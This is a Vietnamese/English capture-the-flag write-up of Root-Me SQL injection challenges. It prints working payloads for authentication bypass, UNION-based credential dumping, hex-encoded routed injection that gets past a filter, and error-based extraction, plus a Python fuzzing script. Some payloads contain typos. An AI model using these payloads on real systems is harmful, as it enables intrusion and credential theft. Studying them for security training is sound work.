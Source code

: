 ## [SQL injection - Authentication](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Authentication)
### Steps to reproduce

  - Start the challenge
  - Go to the login page
  - Use the following payloads to bypass authentication:
    - Username: `admin' -- `
    - Password: `admin` 
    - Click on the "Login" button
  - Đăng nhập thành công với tư cách là quản trị viên
  - To validate the challenge use this password --> password = 'admin' --> error
  - Ctrl + U để xem source code
  - Tìm thấy password `value` trong source code
  - Submit the password to complete the challenge.

## [SQL injection - Strings](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Strings)
### Steps to reproduce
- Start the challenge
- Bài này cho ta nhiều lựa chọn hơn, ta có các chức năng như đăng nhập, tìm kiếm hay xem thông tin
- Tuy nhiên lỗi sqli xuất hiện tại ô tìm kiếm. 
- Để biết được tại sao lại bị lỗi sqli ta chỉ cần nhập vào ký tự `1'` . Lỗi sẽ xuất hiện Và biết đây là `sqlite3`
- Để khai thác lỗi sqli ta có thể sử dụng payload sau: `1' UNION SELECT sql, null FROM sqlite_master--`
- Ta sẽ thấy được các bảng trong database
- Tiếp theo ta sẽ lấy dữ liệu từ bảng `users` với payload sau: `1' UNION SELECT username,password FROM users--`
- Ta sẽ thấy được username và password của các user trong bảng users
- Submit password của user admin để hoàn thành challenge

## [SQL injection - Numeric](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Numeric)
### Steps to reproduce
- Start the challenge
- Bài này ta có thể thấy lỗi sqli xuất hiện tại tham số id trong url `action=new&new_id=1`
- Để biết được tại sao lại bị lỗi sqli ta chỉ cần nhập vào ký tự `1'` . Lỗi sẽ xuất hiện Và biết đây là `sqlite3`
- Để khai thác lỗi sqli ta có thể sử dụng payload sau: `1 UNION SELECT null,sql, null FROM sqlite_master--`
- Ta sẽ thấy được các bảng trong database
- Tiếp theo ta sẽ lấy dữ liệu từ bảng `users` với payload sau: `1 UNION SELECT null,username,password FROM users--`
- Ta sẽ thấy được username và password của các user trong bảng users
- Submit password của user admin để hoàn thành challenge.

## [SQL Injection – Routed](https://www.root-me.org/en/Challenges/Web-Server/SQL-Injection-Routed)
### Steps to reproduce
- Start the challenge
- Bài này ta có thể thấy lỗi sqli xuất hiện tại chức năng tìm kiếm
- SQL Injection – Routed : HIỂU ĐƠN GIẢN LÀ DẠNG INJECTON MÀ CÂU QUERY 2 SẼ ĐƯỢC “LỒNG” VÀO CÂU QUERY 1
- Playload: `1'` --> lỗi syntax
- Về cơ bản thường ta sẽ khai thác `' union select (giá trị muốn khai thác)-- `. Tuy nhiên thì với routed thì giá trị truy vấn với select đầu tiên sẽ không phải là truy vấn đầu vào.
- Playload: `' UNION SELECT 1-- ` --> done 
- Playload: `' UNION SELECT 'union select null,null-- ` --> `attack detected` chứng tỏ truy vấn đã bị filter mất.=> thử mã hóa `hexa truy` vấn thứ 2
- hexa của `'union select null,null-- -` là `27756E696F6E2073656C656374206E756C6C2C6E756C6C2D2D202D`
- 0x là ký tự đại diện cho hexa với hệ số 16
- Playload: `' UNION SELECT 0x27756E696F6E2073656C656374206E756C6C2C6E756C6C2D2D202D-- ` --> done
- Tìm database
- Playload: `' union select 'union SELECT 1,table_name FROM information_schema.tables where table_schema = database()-- `
- hexa của `'union SELECT 1,table_name FROM information_schema.tables where table_schema = database()-- -` là `27756E696F6E2053454C45435420312C7461626C655F6E616D652046524F4D20696E666F726D6174696F6E5F736368656D612E7461626C6573207768657265207461626C655F736368656D61203D20646174616261736528292D2D202D`
- Playload: `' union select 0x27756E696F6E2053454C45435420312C7461626C655F6E616D652046524F4D20696E666F726D6174696F6E5F736368656D612E7461626C6573207768657265207461626C655F736368656D61203D20646174616261736528292D2D202D-- `
- Tìm cột
- Playloaf: `' union select' union SELECT 1,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'users'-- - -- `
- hexa của `' union SELECT 1,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'users'-- -` là `2720756E696F6E2053454C45435420312C67726F75705F636F6E63617428636F6C756D6E5F6E616D65292046524F4D20696E666F726D6174696F6E5F736368656D612E636F6C756D6E73205748455245207461626C655F6E616D65203D20277573657273272D2D202D`
- Playload `' union select 0x2720756E696F6E2053454C45435420312C67726F75705F636F6E63617428636F6C756D6E5F6E616D65292046524F4D20696E666F726D6174696F6E5F736368656D612E636F6C756D6E73205748455245207461626C655F6E616D65203D20277573657273272D2D202D-- `
- Lấy user pass `' union select' union select 1,concat(login,' : ',password) from users-- - --`

## [SQL injection – Error]
### Steps to reproduce
- `http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC'` --> error --> sql injection
- `http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC', (CAST((select table_name form information_schema.tables) as int)) -- ` --> error chỉ hiện thị 1 dòng
- `http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC', (CAST((select table_name form information_schema.tables limit 0,1) as int)) -- ` --> lỗi sử dụng `offset`
- `http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC', (CAST((select table_name form information_schema.tables limit 1 offset 0) as int)) -- ` --> tim được table_name
- `http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC', (CAST((select column_name form information_schema.columns limit 1 offset 0) as int)) -- ` --> tim được column `id` hơi nhọc nên fuzz cho nhanh
```
import requests
import sys

URL = "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC"

for i in range(0,1000):
	query ='ASC, (CAST((select column_name from information_schema.columns limit 1 offset ' + str(i) + ') as int))--'
	PARAMS ={'action':'contents','order':query}
	http  = requests.get(url = URL,params = PARAMS)
	content = http.content
	content = content.replace("</body></html>","")
	print "column of table is :" + content[441:]
```
- Tìm được column
- `http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC', (CAST((select userafa form fsafsdasf limit 1 offset 0) as int)) -- ` --> tìm username
- pass tương tự.